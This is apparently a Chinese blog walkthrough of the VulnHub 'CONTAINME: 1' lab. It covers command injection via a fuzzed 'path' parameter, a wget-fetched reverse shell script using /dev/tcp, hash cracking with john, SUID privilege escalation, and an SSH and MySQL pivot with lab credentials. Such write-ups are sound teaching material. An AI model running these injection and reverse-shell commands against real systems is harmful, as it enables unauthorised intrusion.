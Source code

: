 ```yaml
---
layout: post
title: "vulnhub靶场之CONTAINME: 1"
date: "2022-12-03T13:19:36.502Z"
---
```

vulnhub靶场之CONTAINME: 1
======================

**准备：**

攻击机：虚拟机kali、本机win10。

靶机：CONTAINME: 1，下载地址：https://download.vulnhub.com/containme/THM-ContainMe-v4.ova，下载后直接vm打开即可。

知识点：命令执行、ffuf爆破参数、hxd使用、ida使用（逆向）、john爆破、可疑文件提权、mysql基本操作。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212401015-571473990.png)

**信息收集：**

通过nmap扫描下网段内的存活主机地址，确定下靶机的地址：nmap -sn 172.20.10.0/24，获得靶机地址：172.20.10.3。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212622913-509785037.png)

扫描下端口对应的服务：nmap -T4 -sV -p- -A 172.20.10.3，显示开放了22、80、2222、8022端口，开启了ssh、http服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212728125-571275287.png)

**目录扫描：**

使用dirmap对80端口进行目录扫描，发现了index.php、info.php、index.html文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201233733339-1651289366.png)

访问index.php返回一个目录信息，在其源代码信息中出现隐藏信息：where is the path ?，猜测这里应该是存在参数并且可能执行了ls -al之类的系统命令。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201233904153-560531803.png)

**参数爆破：**

使用ffuf进行参数爆破，命令：ffuf -u 'http://172.20.10.3/index.php?FUZZ=../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 329，成功获得参数名称：path。最后的-fs是为了过滤下无用的返回信息，需要根据具体情况进行调整，这里使用-fs 329就可以。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235310115-960756937.png)

使用获得path参数输入命令：;id或|id进行测试，发现确实存在命令执行漏洞。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235643629-42458856.png)![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235725653-683251731.png)

**获取shell：**

测试时直接使用bash、nc无法反弹shell，通过echo写入脚本文件也是无法写入成功的，后来使用命令：ls -al /查看了下目录权限，发现只有/tmp目录才具有写入权限，但是使用echo往/tmp写入仍是失败。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202002341721-1214265806.png)

后来只能在本地写好脚本然后开启http服务，通过命令执行漏洞下载该脚本，命令：;wget -P /tmp http://172.20.10.2:8000/shell.sh。然后通过命令：;ls -al /tmp可以查看上传的脚本信息。如果不确定上传的目录，可以通过ls -al /查看下具有写入权限的目录，不过一般/tmp都可以写入。

    #!/bin/bash
    bash -c 'bash -i >&/dev/tcp/172.20.10.2/6688 0>&1'

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202001721912-1561496391.png)

 写入脚本文件后在kali端开启对6688端口的监听，命令：nc -lvvp 6688，然后利用命令执行漏洞使用bash进行执行shell.sh文件，命令：bash /tmp/shell.sh，成功获得shell权限。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202003830386-1325380626.png)

**尝试提权：**

查看下当前账户是否存在可以使用的特权命令，sudo -l，但是这个方法这里行不通。

 ![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202005418138-1468784167.png)

 原来想去/home目录下查找下flag文件，但是在/home/mike目录下发现了一个可疑文件，执行该文件结果如下。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202005636319-1704600058.png)

 使用strings、strace查看或调试该文件信息，但是均失败，显示不存在该命令，想用python开启web服务下载该文件也是失败。

 ![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202011558199-213594849.png)

**逆向代码信息：**

那就只能查看下该文件的二进制数据，命令：xxd -ps /home/mike/1cryptupx。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202134920301-1977602387.png)

使用hxd将十六进制编码恢复并导出为1cryptupx文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202153504526-295259911.png)

使用ida打开1cryptupx文件，查看下其代码信息并对代码信息进行分析，发现是当我们输入的密码与hash值比对正确时时会执行/bin/bash，那就将hash值复制下来进行爆破，命令：john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt，成功得到密码：mike。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164016229-1852345649.png)

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164058756-947548795.png)

**提权至root：**

加上密码：mike执行1cryptupx文件，但是返回的仍是www-data权限。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164433419-92347082.png)

那我们查看当前用户下具有root权限的可执行文件都有哪些，命令：find / -perm -4000 -type f 2>/dev/null，发现了：/usr/share/man/zh\_TW/crypt，看到名字和1cryptupx都具有crypt。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164756029-89817570.png)

查看该文件权限显示当前账户具有可执行权限，使用获得密码：mike进行执行，成功获得root权限，但是未发现flag值，但是发现root后面显示是host1，猜测是否存在另一个虚拟镜像。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202165022151-590492730.png)

**提权2：**

查看主机ip发现两个新的ip地址：192.168.250.10、172.16.20.2，emmmm接着搞吧。使用nmap对该地址进行扫描，命令：nmap -sn 172.16.20.0/24，但是容器中未安装nmap，需要自己安装：apt install nmap，扫描完成之后发现了172.16.20.6。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202171114886-381218128.png)

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202173052555-622753562.png)

扫描下主机172.16.20.6开放的端口对应的服务：nmap -A 172.16.20.6，显示开放了22端口和ssh服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202174155581-2111227326.png)

虽然开放了ssh服务，但是我们缺少登录密码进行登录，但是在mike账户下发现了密匙信息，因此尝试下使用mike账户的密匙信息进行登录，命令：ssh mike@172.16.20.6 -i id\_rsa，成功登录。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202175036147-26641580.png)

查看下当前开启的服务，命令：ss -tuln，发现了mysql服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202175258411-1733386223.png)

这里尝试了下常用的弱密码，最后password成功连接数据库，命令：mysql -umike -ppassword，然后在account数据库中发现了root账户和mike账户的密码信息：root/bjsig4868fgjjeog、mike/WhatAreYouDoingHere。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190346487-2116757854.png)

利用获得密码信息：root/bjsig4868fgjjeog、mike/WhatAreYouDoingHere切换成root账户，然后在root账户下的/root目录下发现mike.zip文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190747498-1957101755.png)

解压mike.zip文件需要输入密码，尝试使用mike账户的密码：WhatAreYouDoingHere进行解密，获得解密后的文件并读取文件信息，成功获取到flag值。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190925935-1825500053.png)